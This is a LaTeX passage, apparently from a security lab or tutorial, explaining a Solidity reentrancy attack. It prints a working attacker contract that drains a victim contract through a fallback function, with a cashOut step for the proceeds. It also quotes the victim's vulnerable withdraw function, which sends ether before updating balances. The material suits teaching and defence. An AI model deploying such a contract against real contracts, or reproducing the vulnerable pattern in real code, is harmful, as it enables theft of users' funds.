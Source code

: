 \begin{lstlisting}[language=Solidity, 
    caption = The attack contract (\texttt{ReentrancyAttacker.sol})]
//SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.8;

import "./ReentrancyVictim.sol";

contract ReentrancyAttacker {
    ReentrancyVictim public victim;
    address payable _owner;
    
    constructor(address payable _addr) public {
        victim = ReentrancyVictim(_addr); 
        _owner = payable(msg.sender);
    }
    
    fallback() external payable {
        if(address(victim).balance >= 1 ether) {
            victim.withdraw(1 ether);
        }
    }
    
    function attack() external payable {
        require(msg.value >= 1 ether, "You need to send one ether 
	                               when attacking");
        victim.deposit{value: 1 ether}();
        victim.withdraw(1 ether);
    } 
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
 
    function cashOut(address payable _addr) external payable {
        require(msg.sender == _owner);
        _addr.transfer(address(this).balance);
    }
}
\end{lstlisting}
 
The most important functions of this contract are 
\texttt{attack()} and \texttt{fallback()}. We will explain how
this contract can be used to steal all the money from the 
victim contract. 

After deploying the contract, the attack invokes the 
\texttt{attack()} function and send at least one ether to 
this contract. This function will deposit one ether to
the victim contract by invoking its \texttt{deposit()} function.
After depositing the money, the attacker contract immediately
withdraw one ether from the victim contract. This is what 
triggers the attack. Let us see what will happen when the 
\texttt{withdraw()} function is  invoked. We list the 
code of the victim contract's \texttt{withdraw()} function
below.

\begin{lstlisting}[language=Solidity]
function withdraw(uint _amount) public {
    require(balances[msg.sender] >= _amount);            (*@\lineone@*) 

    (bool sent, ) = msg.sender.call{value: _amount}(""); (*@\linetwo@*) 
    ...

    balances[msg.sender] -= _amount;                     (*@\linethree@*) 
}
\end{lstlisting}
 
